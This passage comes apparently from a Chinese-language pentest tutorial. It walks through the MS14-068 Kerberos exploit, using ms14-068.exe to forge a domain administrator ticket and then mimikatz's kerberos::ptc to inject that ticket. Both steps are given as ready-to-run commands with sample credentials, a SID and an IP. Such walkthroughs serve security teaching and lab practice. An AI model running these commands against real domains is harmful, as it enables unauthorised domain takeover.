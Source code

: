 ### ③漏洞利用

#### 1、生成域控管理员密钥

```plain
使⽤现成的脚本来获取票据：
ms14-068.exe -u <⽤户名@域名> -s <SID> -d <ip 地址> -p <⽤户密码>

MS14-068.exe -u Administrator@MAO.COM -s S-1-5-21-863777703-696496247-1862912240-500 -d 192.168.126.10 -p Admin@123
```

[![](assets/1706958938-49363d4e3c11261befe682072fa18f66.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172311027-1846755783.png)

#### 2、将内存中导入生成好的票据

然后使⽤ mimikatz 的 `kerberos::ptc` 模块来载⼊票据。

```plain
mimikatz.exe
privilege::debug
kerberos::ptc TGT_Administrator@MAO.COM.ccache
```
